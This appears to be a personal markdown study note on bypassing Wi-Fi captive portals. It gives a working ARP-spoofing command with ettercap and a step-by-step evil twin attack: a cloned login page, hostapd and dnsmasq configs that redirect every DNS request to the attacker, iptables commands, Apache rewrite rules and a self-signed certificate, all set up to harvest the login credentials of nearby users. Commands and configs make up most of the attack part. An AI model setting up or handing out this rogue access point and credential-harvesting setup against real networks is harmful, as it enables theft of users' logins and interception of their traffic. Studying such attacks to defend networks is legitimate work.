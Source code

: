 captive portals make users connect to wifi using a web interface

## Ways of bypassing captive portals
- change mac address to that of a connected client
- sniff logins in monitor mode
- connect and sniff logins after running an arp spoofing attack
- create a fake AP, ask users to login

## Sniffing credentials in monitor mode
Used if there is no encryption
can use airodump-ng to sniff and save then use wireshark to read it

## Sniffing credentials by Arp Spoofing
By running arp spoofing attack,
- the client will lose their connection and will be asked to login again.
- Data sent to/from the access point will be directed to you

`ettercap -Tq -M arp:remote -i <interface-name> ///`

## Using Social Engineering via Evil Twin attack
- clone the login page
- create a fake AP with the same/similar name
- Deauth users to use the fake network withe cloned page
- sniff the login info

### Cloning the login page
- Save the website
- move it to /var/www/html/
- rename downloaded html to index.html
- starting your webserver with `service apache2 start`
- localhost should show the login page ie 127.0.0.1

> [!NOTE] Issues when cloning the webpages
> Fix relative links in the webpages
> wrap your input tags with a form tag that has a post method
> also watch your button behaviour
### Creating Fake AP
The main components of a wifi network are:
- a router broadcasting signal => hostapd
- a DHCP server to give IPs to clients => dnsmasq
- A DNS serer to handle DNS requests =>dnsmasq

Disable network manager
`service network-manager stop`
Flush your IP tables(optional)
`echo 1 > /proc/sys/net/ipv4/ip_forward`
`iptables --flush`
`iptables --table nat --flush`
`iptables --delete-chain`
`iptables --table nat --delete-chain`
`iptables -P FORWARD ACCEPT`

Dnsmasq config
```
#set wifi interface
interface=<interface-name>

#set ip range for clients
dhcp-range=10.0.0.10,10.0.0.100,8h

#set gateway ip address
dhcp-option=3,10.0.0.1

#set dns server address
dhcp-option=6,10.0.0.1

#redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```

Hostpad Config
```
#set wifi interface
interface=<interface-name>

#Set network name
#make the name same or similar to real AP
ssid=<wifi-name>

#set channel
channel=1

#set driver
driver=<wifi-driver>

```

setting up dnsmasq
`dnsmasq -C /path/to/dnsmasq/config/file`

setting hostapd to initize the access point
`hostapd /path/to/hostapd/file -B`

setting wifi's ip address and netmask address
`ifconfig <interface-name> 10.0.0.1 netmask 255.255.255.0`

modify apache config for dns redirecting to fake login page
path to config file=> /etc/apache2/sites-enabled/000-default.conf
```
<Directory "/var/www/html">
	RewriteEngine On
	RewriteBase /
	RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
	RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
	
	RewriteCond %{REQUEST_FILENAME} !-f
	RewriteCond %{REQUEST_FILENAME} !-d
	RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

generate ssl certificate
`openssl req -new -x509 -days 365 -out /path/to/save/cert -keyout /path/to/save/cert/key`
cert extension => .pem
cert key extension => .key
You will be require to make a passkey for the cert

enabling https on apache
`a2enmod ssl

Edit apache config
```
<VirtualHost *:443>
	SSlEngine On
	SSLCertificateFile /path/to/cert/file
	SSLCertificateKeyFile /path/to/cert/key
</VirtualHost>
```

Modify apache ports file
path => /etc/apache2/ports.conf
```
Listen 443
```

start the webserver
`service apache2 start`


> [!NOTE] Note
> Always restart apache after every modification
> `service apache restart`
